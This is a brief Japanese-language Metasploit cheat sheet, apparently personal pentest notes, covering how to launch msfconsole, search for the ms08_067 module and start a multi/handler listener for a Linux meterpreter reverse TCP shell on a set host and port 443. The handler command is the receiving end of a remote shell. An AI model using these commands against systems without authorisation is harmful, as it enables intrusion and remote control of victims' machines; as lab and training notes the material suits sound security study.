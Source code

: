 # metasploit

### 起動

```
sudo msfconsole -q
```



### 検索

```
search ms08_067
```



### 検索オプションの確認

```
search -h
```



### ハンドラー

```
msf6 > use exploit/multi/handler 
```

```bash
sudo msfconsole -q -x "use exploit/multi/handler;\
>              set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
>              set LHOST 192.168.119.153;\
>              set LPORT 443;\
>              run"
```

